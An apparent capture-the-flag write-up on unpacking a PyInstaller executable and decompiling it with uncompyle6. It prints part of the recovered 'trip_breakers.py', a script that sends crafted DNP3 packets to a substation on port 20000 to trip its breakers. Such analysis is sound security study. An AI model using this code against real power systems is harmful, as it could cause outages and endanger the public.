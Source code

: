 Check with ExeinfoPE, I found that the source file was written in Python, compiled with PyInstaller v3.6. After many tries, I realized I have to use Python 3.6 to extract to the content.

> [ PyInstaller v.3.6  - 2005–2019 - support Python 2.7, 3.5–3.7 www.pyinstaller.org ] - stub :  x64 Microsoft Visual C++ v14.0 - 2015 - microsoft.com (exe 4883ec 28-48)

First, I use [`PyInstaller Extractor`](https://github.com/extremecoders-re/pyinstxtractor) (with **Python 3.6**) to extract the contents of a PyInstaller generated Windows executable file.

Last, I use [`uncompyle6`](https://github.com/rocky/python-uncompyle6) to decompile the `trip_breakers.pyc` file, which our main file to inspect.

### trip_breakers.py - Main python source code file

Here is the source file for the challenge

```python
# uncompyle6 version 3.7.5.dev0
# Python bytecode 3.6 (3379)
# Decompiled from: Python 3.7.6 (default, Sep 11 2021, 18:52:43) 
# [GCC 10.2.1 20210110]
# Embedded file name: trip_breakers.py
import struct, socket, time, sys
from crccheck.crc import Crc16Dnp
OPT_1 = 3
OPT_2 = 4
OPT_3 = 66
OPT_4 = 129

class Substation:

    def __init__(self, ip_address, devices):
        self.target = ip_address
        self.devices = []
        self.src = 50
        self.transport_seq = 0
        self.app_seq = 10
        for device in devices:
            self.add_device(device)

        self.connect()

    def connect(self):
        print('Connecting to {}...'.format(self.target))
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.connect((self.target, 20000))
        print('Connected to {}'.format(self.target))

    def add_device(self, device):
        self.devices.append({'dst':device[0],  'count':device[1]})

    def activate_all_breakers(self, code):
        for device in self.devices:
            dnp3_header = self.get_dnp3_header(device['dst'])
            for x in range(1, device['count'] * 2, 2):
                dnp3_packet = dnp3_header + self.get_dnp3_data(x, OPT_1, code)
                self.socket.send(dnp3_packet)
                time.sleep(2)
                dnp3_packet = dnp3_header + self.get_dnp3_data(x, OPT_2, code)
                self.socket.send(dnp3_packet)
                time.sleep(5)

    def get_dnp3_header(self, dst):
        data = struct.pack('<H2B2H', 25605, 24, 196, dst, self.src)
        data += struct.pack('<H', Crc16Dnp.calc(data))
        return data
```